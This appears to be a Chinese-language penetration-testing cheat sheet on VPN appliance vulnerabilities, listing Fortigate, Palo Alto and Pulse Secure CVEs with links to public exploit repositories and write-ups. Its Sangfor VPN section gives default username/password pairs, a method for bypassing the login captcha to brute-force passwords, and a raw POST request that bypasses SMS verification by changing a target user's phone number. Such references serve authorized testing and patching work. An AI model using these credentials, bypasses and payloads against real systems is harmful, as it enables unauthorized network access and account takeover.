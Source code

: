 
### VPN

**Fortigate SSL VPN**
- **CVE-2018-13379 Fortigate SSL VPN 密码读取**
    - [milo2012/CVE-2018-13379](https://github.com/milo2012/CVE-2018-13379)
- **CVE-2018-13382 Fortigate SSL VPN 任意密码重置**
    - [milo2012/CVE-2018-13382](https://github.com/milo2012/CVE-2018-13382)

**Palo_Alto SSL VPN**
- **CVE-2019-1579 Palo Alto GlobalProtect 远程代码执行漏洞**
    - 相关文章
        - [Orange: Attacking SSL VPN - Part 1: PreAuth RCE on Palo Alto GlobalProtect, with Uber as Case Study!](https://blog.orange.tw/2019/07/attacking-ssl-vpn-part-1-preauth-rce-on-palo-alto.html)
        - [Palo Alto GlobalProtect上的PreAuth RCE](https://www.cnblogs.com/backlion/p/11209054.html)

    - POC | Payload | exp
        - [securifera/CVE-2019-1579](https://github.com/securifera/CVE-2019-1579)

**Pulse_Secure SSL VPN**
- **CVE-2019-11510 Pulse Secure SSL VPN 任意文件读取漏洞**
    - 相关文章
        - [Pulse Secure 任意文件读取（CVE-2019-11510）漏洞](https://www.cnblogs.com/StudyCat/p/11440991.html)

    - POC | Payload | exp
        - [projectzeroindia/CVE-2019-11510](https://github.com/projectzeroindia/CVE-2019-11510)

- **CVE-2019-11539 Pulse Secure SSL VPN 远程代码执行漏洞**
    - [0xDezzy/CVE-2019-11539](https://github.com/0xDezzy/CVE-2019-11539)

**深信服 VPN**
- **常见密码**
    ```
    admin/sangfor@123
    sangfor/sangfor
    test/test
    test1/123456b
    ```

- **口令爆破**
    - POC | Payload | exp
        - https://bbs.sangfor.com.cn/forum.php?mod=viewthread&tid=20633
            ```
            用户登录，若多次尝试登录失败会要求输入验证码，若输入错误的验证码，会提示“校验码错误或校验码已过期”；修改登录请求的数据包，清空cookie和验证码字段的值即可绕过验证码，此时提示“用户名或密码错误”。
            /por/login_auth.csp?apiversion=1sangfor/cgi-bin/login.cgi?rnd=
            ```

- **短信绕过**
    - POC | Payload | exp
        ```
        POST https://路径/por/changetelnum.csp?apiversion=1

        newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1
        ```

